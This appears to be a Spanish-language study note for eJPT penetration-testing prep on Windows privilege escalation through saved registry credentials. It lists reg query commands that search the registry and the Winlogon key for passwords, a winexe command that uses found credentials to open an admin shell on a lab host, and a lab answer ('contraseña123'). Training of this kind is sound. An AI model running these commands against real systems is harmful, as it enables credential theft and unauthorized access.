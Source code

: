 (Por alguna razón a veces la contraseña no se almacena en el registro. Si este es el caso, use lo siguiente como respuesta: contraseña123)  

- Se puede buscar en el registro las claves y valores que contienen la palabra "contraseña":

```
reg query HKLM /f password /t REG_SZ /s
```

- Si desea ahorrar algo de tiempo, consulte esta clave específica para encontrar las credenciales de administrador de AutoLogon:

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

- En Kali, use el comando winexe para generar un símbolo del sistema que se ejecuta con los privilegios de administrador (actualice la contraseña con la que encontró):

```
winexe -U 'admin%password' //10.10.226.103 cmd.exe
```


enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Passwords - Passing the Hash]]
[[Passwords - Saved Creds]]
[[Passwords - Security Account Manager (SAM)]]
[[Generate a Reverse Shell Executable]]


